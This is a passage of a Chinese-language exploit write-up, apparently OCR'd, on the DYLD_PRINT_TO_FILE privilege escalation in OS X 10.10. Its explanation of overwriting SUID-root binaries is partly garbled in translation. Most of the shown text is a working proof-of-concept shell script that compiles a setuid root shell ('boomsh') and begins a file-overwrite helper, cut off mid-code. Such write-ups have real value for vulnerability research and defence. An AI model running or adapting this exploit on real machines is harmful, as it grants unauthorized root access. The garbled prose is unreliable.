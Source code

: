 Exploitation 3
--------------

当你可以在文件系统上将任意数据写到任意文件时，首先想到的显然是用自己的代码覆写任意SUID为root的二进制程序。可以在编写用于OS X系统调用的man页面上找到一些对你有帮助的信息。

使用该攻击来覆写SUID为root的二进制程序。但是你应该不再相信man页面的帮助信息，因为当你试图进行缓解后的Apple将不触发，日志文件被SUID为root的二进制程序打开，因此对文件系统的写操作将会信任通过超级用户执行的写操作并且SUID的位将不被清空。

完整的POC
------

如下代码为用于该安全问题的概念证明代码，其实用之前所讨论过的方法来为用户安装root shell，同时也会为了更容易地获得root权限而在目录`/usr/bin/boomsh`安装`root shell`。 请注意该段代码可能会危害系统，因为它会安装root shell。

```
#!/bin/sh
#
# Simple Proof of Concept Exploit for the DYLD_PRINT_TO_FILE
# local privilege escalation vulnerability in OS X 10.10 - 10.10.4
#
# (C) Copyright 2015 Stefan Esser <stefan.esser@sektioneins.de>
#
# Wait months for a fix from Apple or install the following KEXT as protection
# https://github.com/sektioneins/SUIDGuard
#
# Use at your own risk. This copies files around with root permissions,
# overwrites them and deletes them afterwards. Any glitch could corrupt your
# system. So you have been warned.

SUIDVICTIM=/usr/bin/newgrp

# why even try to prevent a race condition?
TARGET=`pwd`/tmpXXXXX

rm -rf $TARGET
mkdir $TARGET

cat << EOF > $TARGET/boomsh.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main()
{
        setuid(0);
        setgid(0);
        system("/bin/bash -i");
        printf("done.\n");
        return 0;
}
EOF
cat << EOF > $TARGET/overwrite.c
#include <sys/types.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>

int main(int argc, char **argv)
{
        int fd;
        char buffer[1024];
        ssize_t toread, numread;
        ssize_t numwritten;
        ssize_t size;

```